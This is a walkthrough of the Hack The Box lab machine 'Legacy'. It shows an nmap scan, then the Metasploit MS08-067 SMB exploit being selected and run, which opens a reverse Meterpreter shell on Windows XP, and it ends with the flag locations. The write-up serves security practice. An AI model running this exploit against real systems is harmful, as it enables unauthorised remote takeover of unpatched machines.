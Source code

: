 # Title: Legacy
  Date: 2019-10-11

This is the second box in this run through of HTB machines. It was easy - much easier than the first one I did, __Lame__.

## Enumeration

I started off by running an nmap scan with version detection. The machine is XP - this should be simple!

```
$ nmap -Pn -sV legacy
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-11 11:15 CDT
Nmap scan report for legacy (10.10.10.4)
Host is up (0.040s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```

I didn't really even do any research for this one, I just searched for "smb" in Metasploit. 

```
msf5 > search smb
```

And looked for old and highly rated exploits. I got lucky and the first thing I tried worked. /shrug 

This is the one I used:

```   
99   exploit/windows/smb/ms08_067_netapi                             2008-10-28       great      Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

I selected the exploit, set the RHOST and ran it:

```
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options 

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts legacy
rhosts => legacy
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.x.x:4444 -> 10.10.10.4:1028) at 2019-10-11 11:16:37 -0500

meterpreter > 
meterpreter > pwd
C:\WINDOWS\system32
```

Cool. I got a shell!

## User flag

The user flag was in C:\Documents and Settings\john\Desktop\user.txt

## Root flag

Nothing else needed to happen for root, the flag was readable here: C:\Documents and Settings\Administrator\Desktop\root.txt

## Endnotes

This one was super easy. Nothing really of note here other than it made me laugh that I guessed a working exploit. Way to make me feel good about myself, HTB!

One thing I'd like to do is dive into these exploits to see how they are working and maybe even try running them manually. I may revisit these 2 first boxes (this one and Lame) and give that a shot. Metasploit makes things trivial, but it'd be good to take a look under the hood.